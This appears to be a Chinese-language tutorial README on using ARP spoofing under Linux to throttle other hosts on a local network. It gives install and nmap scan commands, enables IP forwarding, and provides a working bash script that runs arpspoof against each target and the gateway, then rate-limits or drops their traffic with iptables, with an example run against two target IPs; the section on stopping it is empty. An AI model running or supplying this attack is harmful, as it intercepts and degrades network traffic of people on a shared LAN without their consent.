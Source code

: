 # linux下arp攻击之局域网限速
### 安装软件
```shell 
sudo apt-get install dsniff nmap
```
### 查看目标主机ip 
其中192.168.1.1为网关地址，如果你有其他方式可以获取目标主机ip ，可以不用这条命令
```
sudo nmap -ss 192.168.1.1/24
```
### 打开iptables转发开关

临时打开的方式：
```
sudo su
echo 1 >/proc/sys/net/ipv4/ip_forward
```

永久打开的方式：
```
编辑/etc/sysctl.conf文件，将net.ipv4.ip_forward=1前面的#注释去掉，保存文件，然后执行sudo sysctl -p使其生效
```

###创建shell脚本
```
#!/bin/bash
if [ $# -le 2 ]
then
    echo "Usage: ./iptables.sh speed gateway ip1 ip2 ...."
    exit -1
else
    speed=$1
    gateway=$2
fi
IPT=/sbin/iptables

while [ $# -gt 2 ]
do
    shift
    echo $gateway,$2
    arpspoof -i wlp3s0 -t $2 $gateway&
    arpspoof -i wlp3s0 -t $gateway $2&

    $IPT -A FORWARD -s $2  -m limit --limit ${speed}/s -j ACCEPT

    $IPT -A FORWARD -d $2  -m limit --limit ${speed}/s -j ACCEPT

    $IPT -A FORWARD -s $2  -j DROP

    $IPT -A FORWARD -d $2  -j DROP

done
```

###以ROOT权限运行之
```
sudo ./iptable.sh 10 192.168.1.1 192.168.1.100 192.168.1.101 
```
其中10为限制网速，192.168.1.1为网关地址，192.168.1.100为限速ip1,192.168.1.101为限速ip2 

###如何停止
这个东西动静还是比较大的。
```

```

